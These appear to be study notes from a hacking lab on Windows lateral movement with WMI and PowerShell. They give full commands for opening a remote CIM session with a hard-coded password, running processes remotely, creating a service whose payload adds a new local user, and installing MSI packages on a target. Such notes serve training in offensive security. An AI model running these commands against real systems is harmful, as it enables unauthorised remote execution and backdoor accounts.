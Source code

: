 # Windows Management Instrumentation
 WMI exposes a wide range of information about the system, including hardware components, operating system settings, installed software, and more. It allows administrators and developers to query and manipulate this information programmatically using scripting languages like PowerShell.  
 - Monitor system resources, such as CPU, memory, disk space, and network activity
 - Administrators can use WMI to retrieve and modify system configuration settings
 - WMI supports remote administration, enabling administrators to manage and monitor remote computers in a network

 ## Connecting to WMI from PowerShell
 - Create a PSCredential object with user and password
 - Object will be stored in the `$credential` variable

`$username = 'Administrator';`  
`$password = 'Mypass123';`  
`$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;`  
`$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;`

Establish a WMI session using either of the following protocols:
#### DCOM
- RPC over ip will be used for connecting to WMI
- Port 135/TCP and ports 49152-65535/TCP

#### Wsman
- WinRM will be used for connecting to WMI
- Port 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)

Establish a WMI session from PowerShell, we can use the following commands and store the session of `$Session` variable:

`$Opt = New-CimSessionOption -Protocol DCOM`  
`$Session = New-Cimsession -ComputerName TARGET -Credential $credential -SessionOption $Opt -ErrorAction Stop`  

- `New-CimSessionOption` cmdlet is used to configure the connection options for WMI session + connection protocol
- Options and credentials are password to `New-CimSession` cmdlet to establish a session against a remote host

## Remote Process Creation using WMI
Port:
- 135/TCP, 49152-65535/TCP (DCERPC)
- 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)

Spawn a process from PowerShell by utilizing WMI + send a WMI request to Win32_Process class to spawn the process under the session we created before:

`$Command = "powershell.exe -Command Set-Content -Path C:\text.txt -Value munrawashere";`

`Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{
CommandLine = $Command}`

- WMI will not allow you to see the ouput of any command but will create the required process silently

## Creating Services Remotely with WMI
Port:
- 135/TCP, 49152-65535/TCP (DCERPC)
- 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)

Required Group Membership: 
- Admin  

Plan:
- Create service with WMI via PowerShell
- Create a service called THMService2

`Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguments @{`  
`Name = "THMService2";`  
`DisplayName = "THMService2";`  
`PathName = "net user munra2 Pass123 /add"; # Your payload`  
`ServiceType = [byte]::Parse("16"); # Win32OwnProcess : Start service in a new process`
`StartMode = "Manual"`
`}`

- Find and start service  

`$Service = Get-CimInstance -CimSession $Session -ClassName Win32_Service -filter "Name LIKE 'THMService2'"`  

`Invoke-CimMethod -InputObject $Service -MethodName StartService`  

- Stop/Delete the service

`Invoke-CimMethod -InputObject $Service -MethodName StopService`  

`Invoke-CimMethod -InputObject $Service -MethodName Delete`

## Installing MSI Packages via WMI
Port:
- 135/TCP, 49152-65535/TCP (DCERPC)
- 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)

Required Group Membership:
- Admin 

Plan:
- MSI is a file format used for installers
- If we can copy an MSI package to the target system, we can use WMI to install it
- File can be copied any way available to the attacker
- Once the MSI file is on the target system, we can install by invoking the Win32_Product class via WMI

`Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\myinstaller.msi"; Options = ""; AllUsers = $false}`